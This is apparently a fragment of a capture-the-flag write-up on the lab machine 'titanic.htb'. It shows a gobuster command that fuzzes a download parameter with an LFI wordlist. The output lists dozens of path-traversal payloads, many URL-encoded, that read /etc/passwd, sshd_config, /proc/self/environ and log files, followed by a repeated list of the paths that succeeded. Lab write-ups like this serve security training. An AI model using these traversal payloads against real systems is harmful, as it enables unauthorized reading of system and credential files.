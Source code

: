 
I discovered lfi so testing a scan with gobuster and jhaddix lfi list

```sh
┌──(fixit㉿asusx555b)-[~]
└─$ gobuster dir -k -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -t 20 -u http://titanic.htb/download?ticket=                           
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://titanic.htb/download?ticket=
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd (Status: 200) [Size: 1951]
/%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%    25%5c..%25%5c..%255cboot.ini (Status: 400) [Size: 303]
/%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%  25%5c..%25%5c..%00 (Status: 400) [Size: 303]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/shadow (Status: 500) [Size: 265]
/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fshadow (Status: 500) [Size: 265]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd (Status: 200) [Size: 1951]
/..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd (Status: 200) [Size: 1951]
/..%2F..%2F..%2F%2F..%2F..%2Fetc/shadow (Status: 500) [Size: 265]
/=3D “/..” . “%2f..   (Status: 400) [Size: 303]
/C:\Program Files\    (Status: 400) [Size: 303]
/c:\Program Files\Apache Group\Apache\logs\access.log (Status: 400) [Size: 303]
/c:\Program Files\Apache Group\Apache\logs\error.log (Status: 400) [Size: 303]
/dbase.php a          (Status: 400) [Size: 303]
/D:\Program Files\    (Status: 400) [Size: 303]
/../../../../../../../dev (Status: 500) [Size: 265]
/etc/apache2/apache2.conf (Status: 200) [Size: 7224]
/etc/apt/sources.list (Status: 200) [Size: 2377]
/etc/crontab          (Status: 200) [Size: 1136]
/etc/fstab            (Status: 200) [Size: 496]
/etc/group            (Status: 200) [Size: 818]
/etc/hosts            (Status: 200) [Size: 250]
/../../../../../../../../../../../../etc/hosts (Status: 200) [Size: 250]
/etc/hosts.deny       (Status: 200) [Size: 711]
/etc/hosts.allow      (Status: 200) [Size: 411]
/etc/issue            (Status: 200) [Size: 26]
/etc/init.d/apache2   (Status: 200) [Size: 8181]
/etc/netconfig        (Status: 200) [Size: 767]
/etc/mysql/my.cnf     (Status: 200) [Size: 839]
/etc/nsswitch.conf    (Status: 200) [Size: 510]
/./././././././././././etc/passwd (Status: 200) [Size: 1951]
/etc/passwd           (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../../../etc/passwd (Status: 200) [Size: 1951]
/../../../etc/passwd  (Status: 200) [Size: 1951]
/../../../../etc/passwd (Status: 200) [Size: 1951]
/../../etc/passwd     (Status: 200) [Size: 1951]
/../etc/passwd        (Status: 200) [Size: 1951]
/etc/passwd           (Status: 200) [Size: 1951]
/../../../../../../etc/passwd&=%3C%3C%3C%3C (Status: 200) [Size: 1951]
/etc/resolv.conf      (Status: 200) [Size: 920]
/etc/rpc              (Status: 200) [Size: 887]
/./././././././././././etc/shadow (Status: 500) [Size: 265]
/../../../../../../../../../../etc/shadow (Status: 500) [Size: 265]
/etc/shadow           (Status: 500) [Size: 265]
/../../../../../../../../../../../../etc/shadow (Status: 500) [Size: 265]
/etc/ssh/sshd_config  (Status: 200) [Size: 3252]
/etc/sudoers          (Status: 500) [Size: 265]
/proc/cpuinfo         (Status: 200) [Size: 0]
/Program Files\Apache Group\Apache2\conf\httpd.conf (Status: 400) [Size: 303]
/Program Files\Apache Group\Apache\logs\error.log (Status: 400) [Size: 303]
/Program Files\Apache Group\Apache\conf\httpd.conf (Status: 400) [Size: 303]
/proc/loadavg         (Status: 200) [Size: 0]
/proc/interrupts      (Status: 200) [Size: 0]
/Program Files\Apache Group\Apache\logs\access.log (Status: 400) [Size: 303]
/proc/mounts          (Status: 200) [Size: 0]
/proc/meminfo         (Status: 200) [Size: 0]
/proc/net/tcp         (Status: 200) [Size: 0]
/proc/self/cmdline    (Status: 200) [Size: 0]
/proc/net/dev         (Status: 200) [Size: 0]
/proc/partitions      (Status: 200) [Size: 0]
/proc/net/arp         (Status: 200) [Size: 0]
/proc/net/route       (Status: 200) [Size: 0]
/proc/version         (Status: 200) [Size: 0]
/proc/self/status     (Status: 200) [Size: 0]
/proc/self/environ    (Status: 200) [Size: 0]
/Program Files\xampp\apache\conf\httpd.conf (Status: 400) [Size: 303]
/../../../../../../../usr/local/apache/logs/access_ log (Status: 400) [Size: 303]
/../../../../../../../usr/local/apache/logs/access. log (Status: 400) [Size: 303]
/usr/local/apache/logs/access_ log (Status: 400) [Size: 303]
/usr/local/apache/logs/access. log (Status: 400) [Size: 303]
/../../../../../../../usr/local/apache/logs/error.l og (Status: 400) [Size: 303]
/../../../../../../../usr/local/apache/logs/error_l og (Status: 400) [Size: 303]
/var/log              (Status: 500) [Size: 265]
/var/log/dmesg        (Status: 500) [Size: 265]
/var/log/auth.log     (Status: 500) [Size: 265]
/var/log/kern.log     (Status: 500) [Size: 265]
/var/log/syslog       (Status: 500) [Size: 265]
/var/log/wtmp         (Status: 200) [Size: 11520]
/var/run/utmp         (Status: 200) [Size: 3072]
/var/log/lastlog      (Status: 200) [Size: 292292]
/..2f..2f..2f..2f..2f..2f..2fusr2flocal2fapache2flogs2faccess_ log (Status: 400) [Size: 303]
/..2f..2f..2f..2f..2f..2f..2fusr2flocal2fapache2flogs2faccess. log (Status: 400) [Size: 303]
/..2f..2f..2f..2f..2f..2f..2fusr2flocal2fapache2flogs2ferror_l og (Status: 400) [Size: 303]
/..2f..2f..2f..2f..2f..2f..2fusr2flocal2fapache2flogs2ferror.l og (Status: 400) [Size: 303]
///////../../../etc/passwd (Status: 200) [Size: 1951]

===============================================================
Finished
===============================================================
```

/etc/apt/sources.list (Status: 200) [Size: 2377]
/etc/crontab          (Status: 200) [Size: 1136]
/etc/fstab            (Status: 200) [Size: 496]
/etc/group            (Status: 200) [Size: 818]
/etc/hosts            (Status: 200) [Size: 250]
/etc/hosts.deny       (Status: 200) [Size: 711]
/etc/hosts.allow      (Status: 200) [Size: 411]
/etc/issue            (Status: 200) [Size: 26]
/etc/init.d/apache2   (Status: 200) [Size: 8181]
/etc/netconfig        (Status: 200) [Size: 767]
/etc/mysql/my.cnf     (Status: 200) [Size: 839]
/etc/nsswitch.conf    (Status: 200) [Size: 510]
/./././././././././././etc/passwd (Status: 200) [Size: 1951]
/etc/passwd           (Status: 200) [Size: 1951]
/etc/resolv.conf      (Status: 200) [Size: 920]
/etc/rpc              (Status: 200) [Size: 887]
/etc/ssh/sshd_config  (Status: 200) [Size: 3252]
/proc/cpuinfo         (Status: 200) [Size: 0]
/proc/loadavg         (Status: 200) [Size: 0]
/proc/interrupts      (Status: 200) [Size: 0]
/proc/mounts          (Status: 200) [Size: 0]
/proc/meminfo         (Status: 200) [Size: 0]
/proc/net/tcp         (Status: 200) [Size: 0]
/proc/self/cmdline    (Status: 200) [Size: 0]
/proc/net/dev         (Status: 200) [Size: 0]
/proc/partitions      (Status: 200) [Size: 0]
/proc/net/arp         (Status: 200) [Size: 0]
/proc/net/route       (Status: 200) [Size: 0]
/proc/version         (Status: 200) [Size: 0]
/proc/self/status     (Status: 200) [Size: 0]
/proc/self/environ    (Status: 200) [Size: 0]
/var/log/wtmp         (Status: 200) [Size: 11520]
/var/run/utmp         (Status: 200) [Size: 3072]
/var/log/lastlog      (Status: 200) [Size: 292292]

